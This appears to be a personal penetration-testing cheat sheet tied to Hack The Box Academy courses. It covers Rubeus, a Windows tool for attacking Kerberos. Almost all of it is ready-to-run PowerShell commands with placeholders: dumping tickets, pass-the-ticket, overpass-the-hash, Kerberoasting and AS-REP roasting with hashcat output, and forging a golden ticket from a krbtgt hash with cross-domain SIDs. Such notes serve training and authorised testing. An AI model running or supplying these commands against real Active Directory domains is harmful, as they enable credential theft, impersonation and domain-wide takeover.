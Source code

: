 # Rubeus

[![password_attacks](../../../../_badges/htb/password_attacks.svg)](https://academy.hackthebox.com/course/preview/password-attacks)
[![active_directory_enumeration_attacks](../../../../_badges/htb/active_directory_enumeration_attacks.svg)](https://academy.hackthebox.com/course/preview/active-directory-enumeration--attacks)

<div class="row row-cols-lg-2"><div>

[Rubeus](https://github.com/GhostPack/Rubeus) <small>(3.8k ⭐)</small> is a Windows tool to interact with kerberos and manipulate tickets.

```shell!
PS> .\Rubeus.exe dump /nowrap # Dump tickets
```

Request and load a ticket in the current session:

```shell!
PS> # Load the ticket in the current session
PS> .\Rubeus.exe asktgt /domain:xxx /user:xxx /rc4:xxx /ptt
PS> .\Rubeus.exe asktgt /user:xxx$ /certificate:[...] /ptt
```

Pass the hash:

```shell!
PS> .\Rubeus.exe ptt /ticket:xxx@yyy.kirbi
PS> .\Rubeus.exe ptt /ticket:<the base64 encoded ticket>
```
</div><div>

Pass the Key / OverPass the Hash <small>(create a ticket)</small>:

```shell!
PS> .\Rubeus.exe ptt /ticket:xxx@yyy.kirbi
PS> .\Rubeus.exe ptt /ticket:<the base64 encoded ticket>
PS> # Pass the Key / OverPass the Hash == create a ticket
PS> .\Rubeus.exe asktgt /domain:xxx /user:xxx /aes256:xxx /nowrap
PS> .\Rubeus.exe asktgt /domain:xxx /user:xxx /rc4:xxx /nowrap
```

Kerberoasting

```shell!
PS> .\Rubeus.exe kerberoast /stats # number of SPNs, encryption types
PS> .\Rubeus.exe kerberoast /ldapfilter:'admincount=1' /nowrap
PS> .\Rubeus.exe kerberoast /user:cn /nowrap # cn encryption settings
PS> .\Rubeus.exe kerberoast /tgtdeleg /ldapfilter:'admincount=1' /nowrap # try a downgrade attack
```

ASReproasting

```shell!
PS> .\Rubeus.exe asreproast /user:cn /nowrap /format:hashcat
```
</div></div>

<hr class="sep-both">

## 👻 To-do 👻

Stuff that I found, but never read/used yet.

<div class="row row-cols-lg-2"><div>

Cannot be compiled on Linux.

```shell!
$ DEST="$HOME/tools/rubeus"
$ git clone -b master https://github.com/GhostPack/Rubeus $DEST
$ # need .NET Framework v4.0 Developer Packs at https://aka.ms/msbuild/developerpacks
```
</div><div>

Golden ticket:

```shell!
PS> .\Rubeus.exe golden /rc4:<krbtgt hash> /domain:dev.example.com /sid:<child domain SID>  /sids:<target domain SID> /user:dummy /ptt
```
</div></div>